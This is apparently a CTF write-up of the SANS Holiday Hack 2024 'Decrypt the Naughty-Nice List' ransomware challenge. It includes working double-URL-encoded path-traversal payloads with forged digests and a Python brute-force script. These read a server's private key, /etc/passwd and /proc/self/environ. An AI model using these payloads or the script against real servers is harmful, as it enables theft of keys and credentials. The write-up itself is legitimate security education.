




In the SANS Holiday Hack Challenge (HHC) of 2024, there was a challenge named **Decrypt the Naughty-Nice List**, where we are provided with a file that has been encrypted with a ransomware called "Frostbit", and some artefacts from the machine the file was encrypted on. This was easily the hardest challenge of the SANS HHC 2024, and this is why I wanted to create my write-up for it.

As part of the challenge, we are provided with the following files:
 - `DoNotAlterOrDeleteMe.frostbin.json`: a JSON file that shows our ransomware status ID and a "digest" value
 - `frostbit_core_dump.13`: a core dump file from the frostbit ransomware process
 - `frostbit.elf`: the actual ransomware binary
 - `naughty_nice_list.csv.frostbit`: the file that was encrypted by the ransomware
 - `ransomware_traffic.pcap`: some TLS encrypted traffic that the ransomware sent  / received in a PCAP

We are also told the following hints from the in-game elves, to help us along the way:

 - Using tools like strings to **find secrets in memory, decrypt network traffic**, and run strace to see what malware does or executes
 - There's a new ransomware spreading at the North Pole called Frostbit. Its infrastructure looks like code I worked on, but someone modified it to work with the ransomware. If it is our code and they **didn't disable dev mode**, we might be able to pass extra options to reveal more information. If they are reusing our code or hardware, it might also be **broadcasting MQTT messages**.
 - The Frostbit ransomware appears to use multiple encryption methods. Even after removing TLS, some values passed by the ransomware seem to be **asymmetrically encrypted, possibly with PKI**. The infrastructure may also be using **custom cryptography to retrieve ransomware status**. If the creator reused our cryptography, the infrastructure might depend on an outdated version of one of our libraries with **known vulnerabilities**. There may be a way to have the infrastructure **reveal the cryptographic library in use**.

Let's start with the first hint, and run strings on the coredump / memory file:

```c {hl_lines=[1]}
$ strings frostbit_core_dump.13
<---------SNIP--------->
CLIENT_HANDSHAKE_TRAFFIC_SECRET 20c50c9fc347c994721baeb623ffa6ae880f716237250225e525ee2f7d2fc329 3dd43e1431ecc2f8fe07e74c500851dda0374b00f19442db852901e1b4e6584f
SERVER_HANDSHAKE_TRAFFIC_SECRET 20c50c9fc347c994721baeb623ffa6ae880f716237250225e525ee2f7d2fc329 fde1226f4edc28be9d71c4b01e9524151f9b333caf53a4dd835883ff1ddc345e
CLIENT_TRAFFIC_SECRET_0 20c50c9fc347c994721baeb623ffa6ae880f716237250225e525ee2f7d2fc329 542d029ebb88b5f874dbdc62dbe0cedee4c87d5dfe5bc92e786789394ce68e29
SERVER_TRAFFIC_SECRET_0 20c50c9fc347c994721baeb623ffa6ae880f716237250225e525ee2f7d2fc329 f7f89f9d2d6796ba370183efc4b7a3e11d821929f6faec94186f4c0e2c1eb587
POST /api/v1/bot/<REDACTED-UUID>/key HTTP/1.1
Host: api.frostbit.app
User-Agent: Go-http-client/1.1
Content-Length: 1070
Content-Type: application/json
Accept-Encoding: gzip
{"encryptedkey":"82dd12c4cb71cb82947dad68ce4a2f0f71298155ecf2674363e69bc9d16ae83513b023279ca0f54f0330835d3cac4deb0f9e18a201025c6156bfd8ce60f1d9e3a11b3a329380cd539419a44854d13ac6aa868494ef766afb0d405caead6e3f28fccf11551cc634e4832048895a6455a3ff48597bab46e6c0870c71e5cdedcbc9dbf0f93378e74dc04f89a5620530518c1e766dbf7706d5e0323e3defbe0bb7b3dd82f6c4558c711bc64b4a4a42fd35ce097b81fceb570c230002652730ea3b8e734d595b667d3350acc20a96025ea09ca0d939350b16fe5b5beba0771613c032b4e88fa7ed9e808f2ca26a1a62a1d068de87cbdd0267e45ca644981bd9da8da50765faf9d5743b25ba122af427657b6b237f825872f63a44e281657e5223263cd0c2ab20ccbd7d291ca502996d420374c5592805cf609e5fccdfeb72832bf047737bea55482632a7279754b544edd08dde701ef9e3476d7920c9116bd2e39fd75902da22795d91e81f61d541493fd019bc9c754e90bebe842f922dceb00d16027c56c41d98eaaf1298f4b87d245fc79fcbb9a1687510fe36de9dbd3c9faa425624c6e5194a986d0deeb31f71f7820be4565bad5e597ec8d701c5c267224dda7d3e66476959e0105d248f53176f8e6f4018bb2ea4b1c271bce85b87c26a68cfdb2a496a0260649fd118e347ca13d72f613782d1bfeed1dc4f1f63477b88e6c2e6","nonce":""}
<---------CTRL+C--------->
```


The strings utility quickly returns some very useful information and seems to pause right after printing the JSON that includes the encryptedkey (as if it is still processing the rest of the file), so we ctrl+c at this point to note down what we have so far:

 - We have some TLS handshake secrets, which can likely be used to decrypt traffic within the PCAP file we are provided
 - We see a POST request to `api.frostbit.app`
 - And we have a JSON object that includes the `encryptedkey` but doesn't include the `nonce`

We can now copy the 4 secrets in the output to a file, so that we can use it to decrypt TLS traffic in Wireshark. You can follow instructions [like these](https://www.packetsafari.com/blog/2022/10/07/wireshark-decryption/#using-wireshark) to decrypt TLS traffic using Wireshark and pre-shared keys. The following is a screenshot of the traffic seen in Wireshark after decryption:




Notably, we see traffic to the same host (`api.frostbit.app`) as before, however we now have one piece of extra information: the nonce! It looks like the frostbit ransomware is a Go binary that receives a nonce from the server, and then sent the encryptedkey back to the server. We also see that the **server is an nginx server**, running version `1.27.1`.

Ransomware commonly encrypts files using a symmetric cipher, as it is faster to execute, and then encrypts the encryption key with an asymmetric cipher (with a public key) so that the encryption key can only be decrypted by the owner of the private key.

Now, let's go back to the coredump / memory file. We know that the infrastructure is hosted at `api.frostbit.app`, so let's look for any other URLs in the dump:

```c {hl_lines=[1]}
$ strings frostbit_core_dump.13 | grep "https://api.frostbit.app"
https://api.frostbit.app/view/VV7evQlRVAfxm9pFnI/<REDACTED-UUID>/status?digest=8130084086260801122812485000433c
```


Using strings, we find another really useful URL! This seems to be a "status" URL. When visiting this page, we find that the infrastructure is still running, and we are presented with a ransom note:




The URL for this ransom note page includes the following elements:
 - The hostname (`api.frostbit.app`)
 - My status ID (`VV7evQlRVAfxm9pFnI`)
 - My UUID (likely different for every user of the game who tries to complete this challenge)
 - A "digest" value, that looks like a 16-byte hex value


Where do we go from here? Let's apply the next two hints related to **dev mode**, and **broadcasted MQTT messages**.

Specifically, in a previous challenge named "SantaVision", there was a MQTT topic named "frostbitfeed", which is very likely related to the frostbit ransomware. The hint from that challenge that was sent in this MQTT topic was as follows:

```
Let's Encrypt cert for api.frostbit.app verified. at path /etc/nginx/certs/api.frostbit.app.key
```


This seems to be referencing a path to a private key on the server that was used to setup Let's Encrypt (a free certificate authority service for setting up TLS certs).

Regarding the "dev mode" hint, we can start by looking into the HTML behind the ransom note page. We find the following interesting div in the HTML:

```html
        <!-- Placeholder for Debug Data -->
        <div id="debug" style="margin-top: 20px;"></div>
```


It seems like the hints are suggesting we can supply extra parameters to enable dev mode / debug mode. After some trial and error, we find that adding `&debug=true` to the end of the URL provides some extra information back from the server, and enables data to be filled in this HTML div.

However, just providing this extra parameter by itself doesn't seem to provide us much information. We likely need to mess with other parameters to get back useful debug information from the server. Remembering the different parts of the URL, let's try playing with the status ID, UUID, and digest, **with debug mode enabled**.

Playing with the status ID value seems to keep returning a 404 error (Not Found) with the following debug error:

```json
{"debug":true,"error":"Status Id File Not Found"}
```


Playing with the UUID returns HTTP 400 (Bad Request) instead of 404, with the following debug error:

```json
{"debug":true,"error":"Invalid UUID Format"}
```


Finally, playing with the digest value (e.g. removing a character), returns a HTTP 400 (Bad Request) with the following debug error:

```json
{"debug":true,"error":"Status Id File Digest Validation Error: Traceback (most recent call last):\n  File \"/app/frostbit/ransomware/static/FrostBiteHashlib.py\", line 55, in validate\n    decoded_bytes = binascii.unhexlify(hex_string)\nbinascii.Error: Odd-length string\n"}
```


This error seems quite useful. We see a few interesting things here:
1. The digest is a hex string, and decoding an odd-length hex value causes the error
1. The digest is called a "Status Id File Digest" so is likely connected to our status file
1. The file that caused the error is a python file located at /app/frostbit/ransomware/static/FrostBiteHashlib.py

Notably, this python script is in the "static" folder. There was also an image in a "static" folder in the HTML of the ransom note page:

```html

```


As it turns out, the python file can also be fetched from the server, as it has been placed in this static, publicly visible folder: https://api.frostbit.app/static/FrostBiteHashlib.py

In this python file, we see a class named "Frostbyte128" that has a `_compute_hash` function, `update` function, and `validate` function. A local variable `self.hash_result` is set when the class is instantiated with the value returned from the `_compute_hash` function, and the `validate` function just checks the supplied value against the local `hash_result` value. The name of the class has `128` at the end of it, which likely represents the number of bits in the digest value i.e. a 16-byte value / 128-bits.

This "Hashlib" file is likely being references in the final hint for this challenge: `the infrastructure might depend on an outdated version of one of our libraries with known vulnerabilities`. Putting what we know together, it seems like we need to find a vulnerability in the hash generator library so that we can access other files, apart from the status ID file (which is my case, was named `VV7evQlRVAfxm9pFnI`).

Let's first get an understanding of how the `_compute_hash` function works:


1. The hash is first initialized to all 0s, with a length of 16 bytes
1. The first for loop creates a hash of the file contents (file_bytes)
1. for every byte in the file, xrd = file_bytes XOR nonce, and hash_result is a 16-byte rotating xor of xrd
1. This "nonce" may be the same nonce we got from the PCAP decryption step
1. We now have a "midway hash result" that takes into account the file_bytes and nonce. Importantly, the "count" is now the length of the file_bytes (this is important for the mod expressions in the second loop).
1. The second for loop performs a rotating bitwise AND of the "midway hash result" with a XOR of the nonce with the filename

When exploiting the vulnerability in this calculation, we aim to be able to predict the digest of any file of our choice. We need to do this **without knowing the file contents** (since we are trying to access other files on the filesystem), and only knowing the nonce.

We are now at the hardest part of this challenge. After discussions with some smart friends I made on discord, we gathered that this challenge can be solved in a few different ways. All ways involve forcing the digest to be full of `0`s i.e. 16 bytes of `0x00`. Looking at the final loop, if we can force `xrd` to be 0, we can also force `hash_result` to be 0, as `hash_result` is a bitwise `AND` of the "midway hash result" and "xrd". **Here is a summary of the ways we can achieve this objective:**

1. If we can **include the nonce in the filename**, it will be XORed with the server's nonce in the second for loop, and result in "xrd" becoming 0. There is a caveat however, as it requires us to perfectly line up the nonce we send in the filename with the nonce on the server. Additionally, we need to double the nonce as we want to zero-out a digest that is 16 bytes, while the nonce is only 8 bytes.

2. We can **brute force adding one byte at a time** to the filename, for 16 bytes. When adding a byte, we check that the respective digest byte is calculated to be zero, and the server doesn't return a "file not found" error when adding the byte. We do this 16 times to get 16 bytes that create a 16-byte digest of all 0s. This works because there will always be some byte that can produce zero when XORed with the respective nonce byte, and hence cause xrd to be 0 as well. The benefit of this method is that we do not need to guess the length of the payload; we know it will just be the filename + 16 bytes.

3. Include 16 bytes in the filename that are the **bitwise inverse** of another 16 bytes in the filename. This utilizes the idea that `(A ^ C) & (B ^ C) == 0`, where A and B are inverse of each other. This method does not require knowledge of the nonce, and also does not require guessing the length of the payload.

Note that all of these solutions require us to send special bytes in the filename, that we need the server to ignore when actually fetching the file. We can test that the server supports a particular byte by adding it to the filename, and checking whether the server returns a `file not found` error (failure scenario) or an `invalid digest` error (file successfully found).

Below I will show how we can solve this problem using each of the above solutions. **The file we will target, and try to access, is the nginx private key that was mentioned in the MQTT hint**.

# Solution 1: Double-Nonce


As mentioned, this way requires repeating the nonce twice, and guessing the length of the whole filename payload so that the double-nonce lines up with the nonce on the server and cancels it out. My nonce from the PCAP was `fb7b442bb0713ec4`, so repeating that twice unhexlified, and prepending it to the target file, looks like this:

```
\xfb\x7b\x44\x2b\xb0\x71\x3e\xc4\xfb\x7b\x44\x2b\xb0\x71\x3e\xc4../../../../etc/nginx/certs/api.frostbit.app.key
                                     XOR
\xfb\x7b\x44\x2b\xb0\x71\x3e\xc4\xfb\x7b\x44\x2b\xb0\x71\x3e\xc4…(repeated)
```


Remember that we are repeating the nonce twice as we want to 0 out a 16-byte digest.

The double-nonce that we send, if lined up with the server's repeated nonces, will cancel each other out (XOR) and result in an all 0s digest. It will stay 0 as we keep iterating through the filename as well, as once the hash_result becomes 0, it will stay 0 no matter what it is `AND`ed with (`x & 0 == 0`, for any value of x).

But how can we make sure that the double-nonce we send lines up with the servers nonce? This requires a bit of trial and error. We know that the total length of the base filename (`../../../../etc/nginx/certs/api.frostbit.app.key`) is 48 bytes. When we add 16 bytes of the nonce to this, we get 64 bytes. After some trial and error, we find that 68 bytes is a valid solution for filename length that allows the double-nonce to line up with the server (assuming the double-nonce is prepended to the filename). Therefore, adding 4 bytes, such as `/../`, to the 64-byte filename gives us a valid solution:

https://api.frostbit.app/view/%25fb%257b%2544%252b%25b0%2571%253e%25c4%25fb%257b%2544%252b%25b0%2571%253e%25c4%252f..%252f..%252f..%252f..%252f..%252fetc%252fnginx%252fcerts%252fapi.frostbit.app.key/REDACTED-UUID/status?digest=00000000000000000000000000000000&debug=true

The payload decodes to the following, which is exactly 68 bytes long:

```
û{D+°q>Äû{D+°q>Ä/../../../../../etc/nginx/certs/api.frostbit.app.key

{nonce} {nonce} /../ {followed by target-file path}
```

**Note that the filename needs to be double URL encoded so that it gets treated as a parameter in the URL rather than a URL path.**

After successfully retrieving the RSA key, we know its file length to be exactly 3243 bytes. Therefore, we can reverse engineer the `_compute_hash` code to determine the different lengths our payload can be to allow for the double-nonce to line up with the servers nonce. In other words, at some point in the second loop, we want filename to line up with the nonce at the 1st position of each.

In our calculations, we know that file_length mod nonce_length is 3 (`3243 mod 8`). To get back to the start of the nonce, we need to move forward 5 spots modulo 8 (i.e. 13, 21, 29... also work). Since we want the start of the filename to meet this position, we can represent an equation like this:

```
        (filename_length - count_filename_mod) mod 8 = 5

    i.e. x - (3243 mod x) mod 8 = 5, where x is the unknown filename length
```

In other words, at the start of the second loop, the distance to the start of the filename [modulo 8] must be 5 positions away from the start of the nonce. If this condition matches, the start of the filename payload (the double nonces) will line up with the nonce in the XOR loop.

We can use python to tell us the different solutions for x, where x is between 65 (minimum length including double nonce and filename) and 90 (approximate maximum bytes that the server accepts for a filename). Here are the filename lengths that will solve the equation (also have to make sure that the `count_filename_mod` is greater than 16 so that the nonce actually rolls over to start at the 0th position):

```python
>>> lengths = []
>>> for x in range(65,90):
...    if (((x - (3243 % x)) % 8) == 5) and (3243 % x > 16):
...       lengths.append(x)
... 
>>> lengths
[68, 74, 80, 82, 88]
```


The full filename payload must be one of these lengths to successfully retrieve the RSA key! This is why a length of 68 worked before.

Therefore, adding 6 bytes to our original payload (such as adding `../../`) to make our payload a length of 74 bytes will also work:

https://api.frostbit.app/view/%25fb%257b%2544%252b%25b0%2571%253e%25c4%25fb%257b%2544%252b%25b0%2571%253e%25c4%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fnginx%252fcerts%252fapi.frostbit.app.key/REDACTED-UUID/status?digest=00000000000000000000000000000000&debug=true

Unfortunately, as we do not know the length of the file contents before solving the challenge, we need to guess one of these lengths. The next two solutions do not require us to guess this length.

# Solution 2: Brute Force 16 Bytes


The second solution involves brute forcing 16 bytes after our filename. Each byte will zero out its respective byte in the digest.

To perform this brute force, we need to set up python code to calculate the digest, so that we can determine whether the respective byte in the digest gets zeroed out by our test byte. As the nonce is a static value known to us, there is only one value that is unknown before we can calculate the digest: the `file_bytes` (which the midway hash is dependent upon). To get around this limitation, we can assume that the midway hash is the worst-case scenario (i.e. all `1`s / all `0xff`'s), which we need to zero out in the bitwise AND in the second loop. The logic is that if we can find bytes that zero out this midway hash when a bitwise `AND` is performed on it, then these bytes should be able to zero out any possible midway hash.

One caveat is that the server will not accept just any byte to be added to the end of the filename. We need to use the errors returned from the server to make sure that adding the padding bytes doesn't cause a `file not found error`.

The following solver script implements the solution that brute forces 16 bytes, byte by byte, while checking that the respective digest byte gets zeroed out, and doesn't return a `file not found` error:

```python
import binascii, urllib.parse, requests

orig_filename = b"../../../../etc/nginx/certs/api.frostbit.app.key"

nonce = "fb7b442bb0713ec4" # the one from the pcap
nonce_bytes = binascii.unhexlify(nonce)
hash_length = 16
myUUID = "REDACTED-UUID"

for y in range(hash_length):
   for x in range(255):
      count = 0
      filename_bytes = orig_filename + bytes([x])
      digest = bytearray(b'\xff') * 16 # assume all 1s come out of the first stage
      for i in range(len(filename_bytes)):
          count_mod = count % hash_length
          count_filename_mod = count % len(filename_bytes)
          count_nonce_mod = count % len(nonce_bytes)
          xrd = filename_bytes[count_filename_mod] ^ nonce_bytes[count_nonce_mod]
          digest[count_mod] = digest[count_mod] & xrd
          count += 1
      
      if digest[y] == 0:
         request_url = 'http://api.frostbit.app/view/' + urllib.parse.quote_plus(urllib.parse.quote_plus(filename_bytes)) + myUUID + '/status?digest=00000000000000000000000000000000&debug=true'
         print(request_url)
         response = requests.get(request_url)
         if response.status_code != 404:
            print(digest)
            print(filename_bytes)
            orig_filename += bytes([x])
            break
```

The solution provided by the above script for my UUID and nonce is: http://api.frostbit.app/view/..%252F..%252F..%252F..%252Fetc%252Fnginx%252Fcerts%252Fapi.frostbit.app.key%2591%2509%2580%2509%2580%251C%251C%2580%2580%2509%2509%2509%2590%2509%251C%2580/REDACTED-UUID/status?digest=00000000000000000000000000000000&debug=true

The same script can also be used to fetch files like `../../../../../proc/self/environ`:

http://api.frostbit.app/view/..%252F..%252F..%252F..%252F..%252Fproc%252Fself%252Fenviron%2581%2590%250C%2509%2580%2590%251C%2580%25D0%25D0%25C0%2509%2590%2509%251C%2580/REDACTED-UUID/status?digest=00000000000000000000000000000000&debug=true

Note that these solutions are dependent on my UUID, as it is connected to my nonce on the server side.

**The second solution was able to successfully brute force bytes that zero out the digest, while not requiring us to guess the length of the payload.**

# Solution 3: Inverse of 16 bytes

The third solution is the cleanest of them all. This solution does not require us to guess the length of the payload, AND does not even require knowledge of the nonce.

This solution works due to the following mathematic rule:


\(A \text{\textasciicircum} C \enspace \& \enspace B \text{\textasciicircum} C = 0\)

where A and B are bitwise inverses of each other

As we are including `../`'s in our filename, we can include the inverse of these characters into the payload before the filename, so that the bytes get bitwise ANDed with each other and cancel each other out. In the above equation, C represents the nonce and can be ignored in the payload as the equation will still be 0 as long as A and B are inverses of each other.

We need to make sure we include 16 bytes of A and B so that we zero out the 16-byte digest. Additionally, we know the inverse of `%2E` (`.`) is `%D1` and the inverse of `%2F` (`/`) is `%D0`.

In the following payload, A is `\xd1\xd1\xd0\xd1\xd1\xd0\xd1\xd1\xd0\xd1\xd1\xd0\xd0\xd1\xd1\xd0` and B is `../../../..//../` (the extra `/` is to make the payload into 16 bytes while still being a valid filepath).

Final payload: https://api.frostbit.app/view/%25D1%25D1%25D0%25D1%25D1%25D0%25D1%25D1%25D0%25D1%25D1%25D0%25D0%25D1%25D1%25D0%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252F%252E%252E%252Fetc%252Fnginx%252Fcerts%252Fapi%252Efrostbit%252Eapp%252Ekey/REDACTED-UUID/status?digest=00000000000000000000000000000000&debug=true

And a similar payload for accessing `/etc/passwd`: https://api.frostbit.app/view/%25D1%25D1%25D0%25D1%25D1%25D0%25D1%25D1%25D0%25D1%25D1%25D0%25D0%25D1%25D1%25D0%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252F%252E%252E%252Fetc%252Fpasswd/REDACTED-UUID/status?digest=00000000000000000000000000000000&debug=true

**As mentioned, this solution works even without knowing the nonce, and uses very minimal calculations.**

# Final Decryption


The final decryption step involves using what we know to perform two stages of decryption:

1. Asymmetric decryption using the RSA key to get the encryption key
2. Symmetric decryption using the encryption key to decrypt the naughty and nice list

Now that we have the Nginx RSA key, we can now decrypt the encryptedkey with this RSA key:




Result: `e2c7c1f486e1f4b9b4427bf5d1d8cf4a,fb7b442bb0713ec4`

This must be our key decrypted! The second part after the comma is actually just our nonce from before (not an IV). Finally, we can now use the key to decrypt the naughty and nice list!

Let's get the naughty nice list in hex so that we can copy-paste it into cyberchef to decrypt it:

```c
$ xxd -ps naughty_nice_list.csv.frostbit | tr -d '\n' | xclip -selection clipboard
```

We paste the hex version of the file into cyberchef, and decrypt the file using AES-CBC:




The decryption only worked successfully when we set the Key as UTF-8 rather than hex. The IV can be any 16-bytes, as it is only used to decrypt the first 16-bytes of the encrypted file (see [AES-CBC decryption diagram](https://i.sstatic.net/dUKmR.png)).

With that, we finally have the naughty-nice list decrypted!

---


Big thanks to the SANS Holiday Hack organisers for providing a great learning experience!

I hope you enjoyed my write-up 😄